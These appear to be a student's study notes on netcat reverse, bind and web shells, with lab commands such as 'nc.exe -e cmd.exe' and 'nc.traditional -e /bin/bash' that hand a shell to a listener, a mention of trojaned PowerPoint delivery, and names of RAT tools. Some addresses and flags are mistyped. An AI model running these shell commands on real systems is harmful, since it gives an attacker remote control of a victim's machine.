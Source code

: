 # Shells


**Reverse Shell**
attacker  <-  victim

Example: 
1. on Attacker:  `nc -l -v -p 443`   start listener (will listen on localhost -> here 192.168.75.133.433)
2. victim: opens application with trojaner (example powerpoint) and opens reverse shell 
  - would call: `nc.exe -e cmd.exe 192.168.75.133.433` to 
3. on attacker: shell is on vicims pc. Can for example explore filesystem

Example 2 (from exersice, running attacker and victim shell on same machine)
1. attacker: `nc -l -v -p 8080`
2. victim: `nc.traditional -e /bin/bash localhost 8080`     (recommended to be in a different folder as attacker shell as it is easier to check that it works)
3. attacher: is not on victims shell  (e.g. check via `pwd`)

Reverse shell is more common (because client connections are usually allowed)

**Bind shell**
attacker  ->  victim

Example
1. On victim `nc.exe -l -v 443 cmd.exe`  -> listener on 192.168.75.144 port 443  
2. Attacker: `nc -v 192.168.75.144 -443` -> is now on vicitms pc


**Web shell**
attacker -> vicitm (RAT)

RAT= Remote adminstration toolkit

- Downloadable tools
  - Covenant
  - hoaxshell
  - msfconsole
    - tool to create malware

**Varia**
NC (Netcat): `nc -h`  (Utility to send raw data over the network)
Sockat: `socat`  -> similar to nc but more capabilities (great tool)
metasploit

RCE: Remote code execution (what every attacker wants. )

